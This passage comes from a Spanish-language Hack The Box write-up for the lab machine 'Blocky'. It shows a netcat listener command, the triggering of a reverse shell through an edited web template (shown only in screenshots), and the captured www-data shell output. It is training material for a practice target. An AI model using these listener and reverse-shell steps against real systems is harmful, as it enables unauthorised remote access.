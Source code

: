 Abre una **netcat** con el puerto que utilizaste en la **Reverse Shell**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ahora, necesitamos entrar en el **Template**, la ruta que se estan usando para los **Templates**, puede que sea la que aparece al principio de la sección **Editor**, vamos a probarla:

<p align="center">
<img src="/assets/images/htb-writeup-blocky/Captura30.png">
</p>

<p align="center">
<img src="/assets/images/htb-writeup-blocky/Captura31.png">
</p>

Si fue correcta, nos debío de conectar a la máquina víctima en la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.37] 37292
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:21:13 up  2:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Listo, esta fue otra forma de ganar acceso. No te olvides de hacer un tratamiento de la TTY para que sea más comodo, y puedas usar más funciones de la terminal.
